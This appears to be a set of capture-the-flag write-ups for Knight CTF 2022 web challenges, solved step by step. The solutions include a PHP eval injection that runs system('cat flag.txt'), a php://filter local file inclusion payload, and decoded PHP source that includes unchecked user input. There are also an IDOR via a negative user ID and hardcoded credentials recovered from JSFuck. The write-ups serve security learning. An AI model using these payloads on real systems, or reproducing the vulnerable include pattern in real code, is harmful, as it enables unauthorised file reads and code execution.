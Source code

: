 # Knight-CTF-22-Writeups
Writeups of web challenges

# 1. Do something special
## Challenge Description:
Alex is trying to get a flag from this website. But something is wrong with the button. Can you help him to get the flag?
Link: http://do-something-special.kshackzone.com/

## Solution:
+ When we view the page source we can find:
   <a href="/gr@b_y#ur_fl@g_h3r3!" class="button btn btn-lg btn-success">Get the flag!</a>
 + When the url encode this link :` gr@b_y#ur_fl@g_h3r3! ` , we get this: gr%40b_y%23ur_fl%40g_h3r3!
 + When we give the encoded link with the url : https://do-something-special.kshackzone.com/gr%40b_y%23ur_fl%40g_h3r3!
 + Thus we get the flag: `KCTF{Sp3cial_characters_need_t0_get_Url_enc0ded}`

# 2. Most secure calculator-1
## Challenge description

link: http://198.211.115.81:9003/
Hint: Hi Selina, 
        I learned about eval today and tomorrow I will learn about regex. I have build a calculator for your child.
        I have hidden some interesting things in flag.txt and I know you can read that file.

## solution:
+ The webpage uses 'eval' to do calculations
+ Flag is stored in flag.txt
+ Submitting 'system("cat flag.txt");' gives us the flag
+ ```Flag: KCTF{WaS_mY_cAlCuLaToR_sAfE}```


## Reference:
+ PHP Eval: https://www.php.net/manual/en/function.eval.php
+ system() in php: https://www.php.net/manual/en/function.system.php

# 3. My PHP Site
## Challenge Description:
Try to find the flag from the website.
N:B: I'm a n00b developer.
link: http://137.184.133.81:15002/?file=index.html

#Solution:
+ Here we use `php://filter` for local file inclusion
+ Above link is a site made of php. So we use `php://filter/convert.base64-encode/resource=index.php`, which allowed me to view the source page of the php file
+ link: http://137.184.133.81:15002/?file=php://filter/convert.base64-encode/resource=index.php
+ We get a base64 encoded string from the above link, which looks like this:
```
  PD9waHAKCmlmKGlzc2V0KCRfR0VUWydmaWxlJ10pKXsKICAgIGlmICgkX0dFVFsnZmlsZSddID09ICJpbmRleC5waHAiKSB7CiAgICAgICAgZWNobyAiPGgxPkVSUk9SISE8L2gxPiI7CiAgICAgICAgZGllKCk7CiAgICB9ZWxzZXs
  KICAgICAgICBpbmNsdWRlICRfR0VUWydmaWxlJ107CiAgICB9Cgp9ZWxzZXsKICAgIGVjaG8gIjxoMT5Zb3UgYXJlIG1pc3NpbmcgdGhlIGZpbGUgcGFyYW1ldGVyPC9oMT4iOwoKICAgICNub3RlIDotIHNlY3JldCBsb2NhdGlvbi
  AvaG9tZS90YXJlcS9zM2NyRXRfZmw0OS50eHQKfQoKPz4KCjwhRE9DVFlQRSBodG1sPgo8aHRtbCBsYW5nPSJlbiI+CjxoZWFkPgogICAgPG1ldGEgY2hhcnNldD0iVVRGLTgiPgogICAgPG1ldGEgaHR0cC1lcXVpdj0iWC1VQS1Db
  21wYXRpYmxlIiBjb250ZW50PSJJRT1lZGdlIj4KICAgIDxtZXRhIG5hbWU9InZpZXdwb3J0IiBjb250ZW50PSJ3aWR0aD1kZXZpY2Utd2lkdGgsIGluaXRpYWwtc2NhbGU9MS4wIj4KICAgIDx0aXRsZT5UYXJlcSdzIEhvbWUgUGFn
  ZTwvdGl0bGU+CjwvaGVhZD4KPGJvZHk+CjwvYm9keT4KPC9odG1sPgo=
  ```
 
+ We when decode it using base64 decoder, we obtain the below php code:
```
  <?php

if(isset($_GET['file'])){
    if ($_GET['file'] == "index.php") {
        echo "<h1>ERROR!!</h1>";
        die();
    }else{
        include $_GET['file'];
    }

}else{
    echo "<h1>You are missing the file parameter</h1>";

    #note :- secret location /home/tareq/s3crEt_fl49.txt
}

?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Tareq's Home Page</title>
</head>
<body>
</body>
</html>
```
+ In the above code, we can see "` #note :- secret location /home/tareq/s3crEt_fl49.txt"`
+ The we give the url file parameter as : http://137.184.133.81:15002/?file=s3crEt_fl49.txt
+ Thus obtained the` flag: KCTF{L0C4L_F1L3_1ncLu710n}`



## Reference:
https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/

# 4.Obsfuscation Isn't Enough
## Challenge Description:
One of my friend developed this login panel and dared me to get the flag by logging in. I tired to bruteforce the login panel. But it doesn't work at all. Can you please figure
out the login credentials or something more valuable for me?
link: http://obsfication.kshackzone.com/

# Solution:
+ As suggested in the hint, we check for the source parameter.
  https://find-pass-code-one.kshackzone.com/?source
+ There we can see a javascript code which is jsfuck encoded
+ We decode the encoded code and obtain the following decoded javascript code.
  ```
  if (document.forms[0].username.value == "83fe2a837a4d4eec61bd47368d86afd6" && document.forms[0].password.value == "a3fa67479e47116a4d6439120400b057") 
  document.location = "150484514b6eeb1d99da836d95f6671d.php"
  ```
+ We get the document location from the above code and give it in the url as follows:
  ` https://obsfication.kshackzone.com/150484514b6eeb1d99da836d95f6671d.php `
+ Thus we obtain the ` flag: KCTF{0bfuscat3d_J4v4Scr1pt_aka_JSFuck} `

# 5. Sometimes we need to look way back
## Challenge Descritpion
` Link:http://wayback.kshackzone.com/index.html `

# Solution:
+The challenge opens to a dicord.js application
+ When we view the page source we can find a a github link: https://github.com/KCTF202x/repo101
+ We will look for the commits for the github link: https://github.com/KCTF202x/repo101/commits
+ There we obtained the ` flag: KCTF{version_control_is_awesome} `

# 6. Zero is not the limit
## Challenge Description

`Challenge link: http://198.211.115.81:5001/`

Hint: You have to think out side from '/user/'.

## Solution:
+ We can see a set of username and password with id 1 to 4
+ When we gave the url : `http://198.211.115.81:5001/user/1`, it gave the username and password of id=1
  Similarly it gives the username and password for id=2,3,4
+ As we gave `http://198.211.115.81:5001/user/0` nothing pops up
+ As the title of the challenges says zero is no the limit we look into negative values
+ When we gave the url as `http://198.211.115.81:5001/user/-1` we obtained the flag.
+ `Flag:KCTF{tHeRe_1s_n0_l1m1t}`

# 7.

